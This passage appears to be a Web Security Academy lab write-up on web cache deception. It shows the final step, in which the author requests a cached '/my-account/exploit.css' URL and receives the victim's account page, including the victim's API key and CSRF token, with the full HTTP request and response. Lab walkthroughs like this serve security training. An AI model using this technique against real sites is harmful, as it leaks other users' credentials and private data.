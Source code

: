 4. Retrieving Carlos's API Key:  
This was the final, exciting step!  
Immediately after delivering the exploit (to stay within the `max-age=30` cache window), I went back to Burp Repeater.  
I sent a GET request (that I had prepared in advance) to:`https://[LAB-ID].web-security-academy.net/my-account/exploit.css`  
And there it was!

- See my full request here:

```http
GET /my-account/exploit.css HTTP/2
Host: 0aa900e30312d0338073120d00120014.web-security-academy.net
Cookie: session=HmWMGxueimPPRDObXEjOJvo5zr6r82nZ
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

- See the response I had here

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 5
X-Cache: hit
Content-Length: 3824
[STRIPPED]
                    <h1>My Account</h1>
                    <div id=account-content>
                        <p>Your username is: carlos</p>
                        <div>Your API Key is: 0oj2xileyffBcLmwBRi8CaibSwCkPSAm</div><br/>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <input required type="hidden" name="csrf" value="f52nRlM7soLzidieHIj5iSzyQKJ8MPZG">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                    </div>
[STRIPPED]
```
I got Carlos API key!  
